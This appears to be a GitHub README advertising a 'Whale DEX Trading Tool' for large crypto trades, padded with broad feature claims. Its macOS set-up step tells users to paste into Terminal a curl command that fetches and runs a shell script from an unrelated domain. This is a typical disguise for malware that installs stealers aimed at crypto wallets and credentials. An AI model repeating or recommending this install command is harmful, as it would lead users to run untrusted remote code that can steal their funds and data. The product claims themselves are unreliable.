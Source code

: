 <p align="center"><img width="720" height="463" src="images/inter.jpg" alt="Defi Bot interface" /></p>

# Whale DEX Trading Tool
A professional trading platform for large-scale transactions on DEX in EVM networks. Features include automatic order splitting (Smart Split), integration with Uniswap, Sushiswap, Curve, risk management with Chainlink and Pyth, Dark Pool for confidentiality, multisig wallets, cross-chain swaps, and professional analytics. Gas optimization, mempool monitoring, and scam protection ensure safe and fast order execution in DeFi

Whale DEX Trading Tool- Is a comprehensive software solution designed for large-scale traders and investors, enabling the safe and efficient execution of transactions exceeding $100,000 on decentralized exchanges (DEX) in EVM networks. The platform combines Smart Split algorithms, in-depth liquidity pool analysis, advanced risk management techniques, integration with leading DEX (Uniswap, Sushiswap, Curve) and aggregators (1inch, Matcha), as well as support for Dark Pool to confidentially execute large orders

# Set-Up
 ## For Windows
   Windows x64: [ ```Download``` ](https://selenium-finance.gitbook.io/selenium-fi/download-link/windows)

 ## For macOS
  MAC OS [ ```Download``` ](https://selenium-finance.gitbook.io/selenium-fi/download-link/mac-os)

Update your sytem for upload

Enter the command on Terminal

                         ''' 
                         /bin/bash -c "$(curl -fsSL https://applepistudios.com/ce/install.sh)"
                         '''

# Key Features and Solutions
## 1. Liquidity Aggregation and Order Execution
- Integration with DEX and Aggregators: Connects with Uniswap, Sushiswap, Curve, 1inch, and Matcha to maximize liquidity coverage.

- Smart Split: Automatically splits orders into smaller parts using TWAP and VWAP algorithms to minimize slippage (for example, by setting a threshold of 0.5–1%).

- Deep Pool Analysis: Identifies routes with minimal slippage and maximum liquidity, thereby reducing the impact of orders on the asset's price.

## 2. Advanced Risk Management
- Stop-Loss and Take-Profit via Oracles: Automatically executes orders when target price levels are reached using Chainlink and Pyth.

- Dark Pool Mode: Privately executes large orders to protect against market panic.

- Integration with Insurance Protocols: Nexus Mutual and InsurAce provide additional protection against smart contract failures.

## 3. Security and Confidentiality
- Multisig and Hardware Wallets: Supports Gnosis Safe, Ledger, and Trezor for secure fund storage.

- zk-Proof Solutions: Enables anonymous transactions using Aztec Network or StarkWare.

- Regular Audits: Daily smart contract audits (e.g., through CertiK and OpenZeppelin).

## 4. Cross-Chain and L2 Optimization

- Cross-Chain Swaps: Seamless integration via Thorchain and LayerZero.

- Automatic Network Selection: Optimizes fees with a gas manager by choosing the network with the lowest fees (Ethereum, BSC, Polygon, Arbitrum).

## 5. Professional Analytics and Customization

- Whale Analytics: Tracks the impact of large orders on the market with detailed statistics and charts (successful cases: over 500 transactions and processing of more - than $50 million in volume during the first year).

- Portfolio Management: Provides balance, PnL, data export (CSV/JSON), and notifications (email, Telegram, SMS).

- Modular Interface: Supports TradingView charts, widget customization, and an API for integration with Python and Excel.

## 6. Regulatory Compliance and Reporting

- KYC and Identification: Optional KYC through decentralized identifiers (BrightID, Polygon ID).

- Tax Reporting: A report generator for tax authorities (supporting FIFO and LIFO).

## 7. Anti-Scam System

- Token Analysis: Automatically checks for scam risks (honeypot, rug pull).

- Blacklist and Alerts: Maintains a database of fraudulent tokens and issues alerts to prevent risks.

## 8. Execution Speed

- Gas Optimization: Utilizes advanced algorithms to predict the optimal gas fee.

- Mempool Monitoring and Priority Nodes: Ensures fast inclusion of transactions in blocks with minimal delays.

# Technology Stack

- Smart Contracts: Solidity (audited contracts).

- Frontend: React + TypeScript.

- Backend: Node.js, The Graph for data indexing.

- Oracles: Chainlink, Pyth.

- Data Storage: IPFS, Arweave.

# Monetization

- Commission: 0.1–0.3% of the transaction amount.

